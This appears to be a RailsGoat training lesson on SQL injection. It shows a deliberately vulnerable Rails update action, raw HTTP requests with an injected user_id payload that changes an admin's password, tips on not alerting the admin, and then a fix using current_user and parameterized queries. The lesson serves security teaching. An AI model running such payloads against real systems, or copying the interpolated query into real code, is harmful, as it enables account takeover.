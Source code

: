 # Description

Injection flaws, such as SQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing unauthorized data.

# Bug

This example of SQL Injection also happens to be a form of Insecure Direct Object Reference since it uses user-supplied input to determine the user's profile to update. However, we will discuss the SQL query being used and why it is vulnerable.

Within app/controllers/users_controller.rb

```ruby
def update
  message = false
  user = User.find(:first, :conditions => "user_id = '#{params[:user][:user_id]}'")
  user.skip_user_id_assign = true
  user.update_attributes(params[:user].reject { |k| k == ("password" || "password_confirmation") || "user_id" })
  pass = params[:user][:password]
  user.password = pass if !(pass.blank?)
  message = true if user.save!
  respond_to do |format|
    format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
    format.json { render :json => {:msg => message ? "success" : "false "} }
  end
end
```
#Solution

### SQL Injection - ATTACK

You will need to use an intercepting proxy or otherwise modify the request prior to it being received by the application. Browse to account_settings (top right, drop-down). Once at the account settings page, type in passwords, and click submit. Now modify the request from:

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 294
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    
    utf8=â&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5&user[email]=ken@metacorp.com&user[first_name]=Ken&user[last_name]=Johnson&user[password]=testtest&user[password_confirmation]=testtest

Now we will inject some SQL Query syntax that will return the first result of a query that looks for users that have an admin attribute that is true. So essentially, instead of looking up the user whose data we will change by our user ID, we tell the database to return the first admin and update their data. In this instance, we are changing admin@metacorp.com's password to testtest. We can later login as that user. Granted, we could just change the user_id to 1 and do the same thing, and there are other ways to exploit this weakness but this is a clear-cut example of SQL Injection. **It is important to note that we have omitted the email, first, and last name parameters as a duplicate email address will cause errors. Additionally, we do not wish to change the admin's first and last name as this would alert the admin to the "hack"**.

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 208
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache

    utf8=â&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5') OR admin = 't' --'")&user[password]=testtest1&user[password_confirmation]=testtest1

### SQL Injection - SOLUTION

In this instance, the more secure route would be to reference the current_user object versus pulling from the database manually, using POST parameters provided by the user.

```ruby
def update
  message = false
  user = current_user
  user.skip_user_id_assign = true
  user.update_attributes(params[:user].reject { |k| k == ("password" || "password_confirmation") || "user_id" })
  pass = params[:user][:password]
  user.password = pass if !(pass.blank?)
  message = true if user.save!
  respond_to do |format|
    format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
    format.json { render :json => {:msg => message ? "success" : "false "} }
  end
end
```

...However, since we are discussing fixing vulnerable SQL queries, let's discuss parameterized queries. Parameterized queries separate the SQL Query from the dynamic and often untrusted data. You could replace the string interpolated value with the following query and effectively separate the query from untrusted data:

```ruby
user = User.find(:first, :conditions => ["user_id = ?", "#{params[:user][:user_id]}"])
```
#Hint

I wonder who else's account needs updating?
